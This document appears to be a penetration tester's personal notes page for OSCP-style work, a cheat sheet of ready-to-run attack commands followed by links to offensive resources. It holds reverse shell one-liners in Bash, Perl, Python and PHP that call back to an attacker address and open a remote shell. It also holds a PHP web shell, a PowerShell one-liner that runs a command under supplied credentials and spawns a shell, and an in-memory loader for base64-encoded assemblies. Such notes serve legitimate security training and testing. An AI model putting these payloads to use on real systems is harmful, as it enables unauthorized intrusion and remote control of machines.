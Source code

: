 ```yaml
---
layout: single
title: Notes
permalink: /notes/
author_profile: true
---
```


- [Powershell](#powershell)
  - [One liner run command as another user](#one-liner-run-command-as-another-user)
  - [One liner to execute base64 encoded assembly](#one-liner-to-execute-base64-encoded-assembly)
  - [Run arbitrary assembly](#run-arbitrary-assembly)
  - [Download file](#download-file)
  - [Powershell-friendly base64 from Linux](#powershell-friendly-base64-from-linux)
  - [Base64 encode file](#base64-encode-file)
- [Shells](#shells)
  - [Bash](#bash)
  - [Perl](#perl)
  - [Python](#python)
  - [PHP](#php)
  - [Sites/Cheat sheets](#sitescheat-sheets)
    - [PayloadsAllTheThings](#payloadsallthethings)
    - [Pentestmonkey](#pentestmonkey)
- [Resources(Useful Websites)](#resourcesuseful-websites)
  - [General/OSCP](#generaloscp)
  - [Privilege Escalation](#privilege-escalation)
    - [Linux](#linux)
    - [Windows](#windows)
  - [Active Directory](#active-directory)
    - [Offense](#offense)
    - [Defense](#defense)
  - [Web App](#web-app)
  - [Buffer Overflow</h2>](#buffer-overflowh2)
  - [Wireless](#wireless)
  - [Tools](#tools)

## Powershell
### One liner run command as another user
```
$secpasswd = ConvertTo-SecureString "xxxxx" -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential("DOMAIN\USER", $secpasswd); Invoke-Command -ComputerName re -Credential $creds -ScriptBlock {c:\path\to\cmd.exe 10.10.10.1 9003 -e cmd}
```
### One liner to execute base64 encoded assembly
```
[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String(<base64-str-here>)).EntryPoint.Invoke($null,@(,([string[]](""))))
```
### Run arbitrary assembly
```
$as.EntryPoint.Invoke($null, @(,[string[]]("arg1", "arg2", "etc")))
```
### Download file
```
iwr -Uri <url> -OutFile <name>
```
### Powershell-friendly base64 from Linux
```
echo -n '<text>' | iconv -f UTF8 -t UTF16LE | base64
```
### Base64 encode file
```
[Convert]::ToBase64String([IO.File]::ReadAllBytes(<file-path>))
```
## Shells
### Bash
Regular
```
bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```
Background process
```
bash -c '(bash -i >& /dev/tcp/10.0.0.1/8888 0>&1)&'
```
### Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Python
One Liner
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
In a script  

```
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```
### PHP
Webshell
```
<?php echo system($_GET['cmd']); ?>
```
Bash reverse shell
```
<?php system(bash -c '(bash -i >& /dev/tcp/10.0.0.1/8888 0>&1)&'); ?>
```

### Sites/Cheat sheets
#### PayloadsAllTheThings
[Reverse shell cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
#### Pentestmonkey
[Reverse shell cheat sheet]()

## Resources(Useful Websites)
### General/OSCP
[https://guif.re](https://guif.re)  
[https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)
### Privilege Escalation
#### Linux
[https://guif.re/linuxeop](https://guif.re/linuxeop  
)  
[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
#### Windows
[https://guif.re/windowseop](https://guif.re/windowseop)  
[https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)
### Active Directory
#### Offense
[https://blog.harmj0y.net/](https://blog.harmj0y.net/)  
[https://adsecurity.org/](https://adsecurity.org/)  
[https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
#### Defense
[https://medium.com/blue-team/preventing-mimikatz-attacks-ed283e7ebdd5](https://medium.com/blue-team/preventing-mimikatz-attacks-ed283e7ebdd5)
### Web App
[https://guif.re/webtesting](https://guif.re/webtesting)  
[https://www.apriorit.com/dev-blog/622-qa-web-application-pen-testing-owasp-checklist](https://www.apriorit.com/dev-blog/622-qa-web-application-pen-testing-owasp-checklist)   
[https://github.com/blabla1337/skf-labs](https://github.com/blabla1337/skf-labs)
### Buffer Overflow</h2>
[https://github.com/stephenbradshaw/vulnserver](https://github.com/stephenbradshaw/vulnserver)  
[https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G](https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)  
[http://netsec.ws/?p=180](http://netsec.ws/?p=180)  
[https://dl.packetstormsecurity.net/papers/general/overflows_and_more.pdf](https://dl.packetstormsecurity.net/papers/general/overflows_and_more.pdf)
### Wireless
[https://www.aircrack-ng.org/doku.php?id=cracking_wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
### Tools
[https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)  
[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)  
[https://www.exploit-db.com/](https://www.exploit-db.com/)  
[https://github.com/zricethezav/gitleaks](https://github.com/zricethezav/gitleaks)  
[https://crt.sh/](https://crt.sh/)